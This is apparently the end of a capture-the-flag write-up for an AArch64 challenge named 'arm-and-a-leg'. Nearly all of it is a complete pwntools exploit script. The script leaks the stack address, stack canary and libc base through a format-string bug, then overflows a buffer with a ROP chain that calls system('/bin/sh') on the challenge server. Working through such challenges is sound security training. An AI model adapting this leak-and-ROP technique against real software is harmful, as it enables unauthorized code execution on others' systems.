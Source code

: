 ```z80
mov x0, x23
blr x22
```

#### Final exp.py

```python
#!/usr/bin/env python3

from pwn import *

context.arch = "aarch64"
context.log_level = "debug"

io = remote("arm-and-a-leg.gold.b01le.rs", 1337)
# io = process("./chal")
elf = ELF("./chal")
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")

io.recvuntil(b"2. Legs\n")
io.sendline(str(2).encode())
io.recvuntil(b"What number am I thinking of?\n")
io.sendline(str(1337).encode())

io.recvuntil(
    b"Wow, you may now purchase an appendage!\tCould we have an address to ship said appendage? "
)
input("debug")
io.sendline(b"%8$p.%15$p.%21$p.")

io.recvuntil(b"Thanks, we will ship to: ")
stack_base = int(io.recvuntil(b".", drop=True), 16)
canary = int(io.recvuntil(b".", drop=True), 16)
libc_base = int(io.recvuntil(b".", drop=True), 16) - 0x274CC

log.info("stack_base: " + hex(stack_base))
log.info("canary: " + hex(canary))
log.info("libc_base: " + hex(libc_base))

csu_gadget1 = 0x000000000003133C + libc_base
# 0x00000000000e3e90: mov x0, x23; blr x22;
gadget2 = 0x00000000000E3E90 + libc_base

io.recvuntil(b"Care to leave some feedback?!\n")
payload = b"a" * 0x68
payload += flat(
    [
        canary,
        stack_base + 0x130,
        csu_gadget1,
        0,
        canary,
        0,
        gadget2,
        0x19,
        0x20,
        0x21,
        libc_base + libc.symbols["system"],
        libc_base + next(libc.search(b"/bin/sh\x00")),
    ]
)
io.sendline(payload)

io.interactive()
```